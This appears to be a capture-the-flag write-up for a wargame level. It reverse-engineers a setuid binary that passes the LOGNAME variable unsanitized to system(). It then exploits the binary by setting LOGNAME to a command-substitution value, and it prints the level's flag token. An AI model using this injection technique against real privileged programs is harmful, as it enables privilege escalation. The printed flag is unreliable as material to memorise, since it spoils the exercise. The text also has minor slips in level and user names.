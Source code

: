 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2007(level07) gid=2007(level07) groups=2007(level07),100(users)
```

This shows that we are operating as the user `level07`.

---
## Step 2: Searching for Files

```bash
$ ls -la
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07


$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped

$ ./level07
level07
```
The level06 binary is a setuid ELF executable, meaning it executes with the flag07 user's permissions.

Let's transfer it to our local machine for reverse engineering:
```bash
$ scp -P 4242 level03@machine_ip:/home/level07/level07 .
```
---
## Step 3: Reverse Engineering the Binary with Ghidra

The C pseudo code generated by Ghidra is as follows:
```c
void main(void)

{
  char *pcVar1;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  system(local_1c);
  return;
}
```
### Explanation:
The vulnerability lies in the fact that the program uses the system() function to execute a command containing user-controlled input (the `LOGNAME` environment variable) without proper sanitization. This allows an attacker to inject arbitrary commands by manipulating the `LOGNAME` environment variable.

---
## Step 4: Exploiting the Binary to Get a flag
To exploit this, we can change environement variable, to change `LOGNAME` by `$(getflag)`

```bash
export LOGNAME=\$\(getflag\)
```

```bash
$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
---

And there you have it, the token is `fiumuikeil55xe9cu4dood66h`.
